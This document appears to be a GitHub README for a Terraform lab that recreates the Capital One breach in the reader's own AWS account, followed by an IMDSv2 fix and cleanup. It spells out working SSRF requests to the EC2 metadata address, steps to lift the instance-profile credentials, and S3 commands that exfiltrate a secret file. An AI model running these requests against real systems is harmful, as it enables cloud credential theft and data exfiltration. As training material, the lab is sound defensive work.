

# Capital One Breach - IaC
<i> We will use terraform `Infrastructure as a Code` tool to create the setup.  
The terraform file attached will help to create the required resources, AWS services and connectivity to reproduce the breach.
it is possible to `destroy` the stack when done and the created resources will be deleted</i>  

## Prerequisites  
- Modify or change inputs in the [main.tf](../main.tf) file with the relevant region, key_pairs, instance_profile
- Validate the `main.tf` file and check that the `terraform fmt, validate, plan` command has no errors.
- The script will create a new S3 bucket named `c-one-demo` and upload a "secret" file

## Demo Instruction

1. copy the `main.tf` file to your local dir and run: 
   ```ShellSession
      $ terraform init 
      $ terraform fmt 
      $ terraform validate 
      $ terrafrom plan
   ```

2. If there are no errors, you can proceed to `terraform apply`   
   check that the resources successfully created.
   You should get the following outputs:  
   ```ShellSession
   bucket_name = "c-one-demo"
   instance_id = "i-<instance_ID_number>"
   public_ip = "<public_ipv4>"
   ```  

3. At this point it is possible to run the HTTP request to pull out the metadata information:
   First check that the server respond to curl:
   ``` ShellSession 
   $ curl http://<public_ipv4_address>/ 
   ```
4. Explore metadata vulnerability  
   Check for some of the metadata categories available:

   ``` ShellSession
   $ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
   ```
   The output should include all categories of information that the ec2 instance would be able to access.

5. Extract AWS credentials  
   By navigating through the API structure, we can eventually get to credentials. Paste each url into your browser to work through the API directory structure.  
   {Instance-Profile} - The instance profile name will be unique to each environment.  
   This will be the value listed under security-credentials - 2nd url below

    ``` ShellSession
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{Instance-Profile}
    ```  

      

6. Extract the VM AWS credentials  
   These are the credentials of the instance profile that is being used by the ec2 instance.  
   By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  
   Copy the value of `AccessKeyId`, `SecretAccessKey` and `Token`, and use it to configure a profile called c-demo.

   ``` ShellSession
   $ aws configure --profile c-demo
   ``` 
 
   Add the `Token` by adding `aws_session_token` to your aws credential. By default, credential files are stored in the following places:  
   `Windows: C:\Users\username\.aws\credentials`
   `Linux: ~/.aws/credentials`
   
   Variables Required:  

   `aws_access_key_id = {AccessKeyId}`          - The Access key as found in the browser window.
   `aws_secret_access_key = {SecretAccessKey}`  - The Secret Access key, as shown in the browser
   `aws_session_token = {Token}`                - The Token value, as shown in the browser. 

  
7. Let's get it done!  
   At this point, you should be able to query caller identity API from your workstation.
   List the available s3 buckets:  

   ```ShellSession
   $ aws s3 ls --profile c-demo
   ```  

   Run the below command, substituting {bucket_name} for the name of the ec2-metadata bucket returned in the previous step.  
   
   ``` ShellSession
   $ aws s3 ls {bucket_name} --profile c-demo
   ```  
   There's another object in here, our `top_secret_file`  
   As an attacker, we might want to download this file. This process is called data exfiltration.

8. Exfiltrate the data!  
   Let's download the file locally and examine the contents  

   ```ShellSession
   $ aws s3 cp s3://{bucket_name}/top_secret_file ./ --profile c-demo
   ```
   
   Congratulations, you have just achieved your malicious objective!

## Mitigate the breach

Run a CLI command to force the ec2 instance to require a http token when issuing a command, by using IMDS v2.
You can use the ec2 `instance-id` provided by the terraform output.  

```ShellSession
$ aws ec2 modify-instance-metadata-options --instance-id "{INSTANCE_ID}" --http-tokens required --http-endpoint enabled 
```  

The ec2 is still running, meaning that the response will return the State as Pending.
Run the same exploits against the web server:  

```ShellSession
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{name-of-your-instance-profile}
```  
At this point, webserver should not return any data for given urls, given the instance metadata service is blocking any request without the token.

9. Clean up.  
  Remove the created resource, ec2 and the S3 bucket:
  ```ShellSession
  $ terraform destroy
  ```

## References:
1. https://blog.lightspin.io/tag/cloud-security
2. https://blog.appsecco.com/server-side-request-forgery-ssrf-and-aws-ec2-instances-after-instance-meta-data-service-version-38fc1ba1a28a
3. https://blog.gruntwork.io/how-to-create-reusable-infrastructure-with-terraform-modules-25526d65f73d
4. https://www.youtube.com/watch?v=tPQsI8n6er0

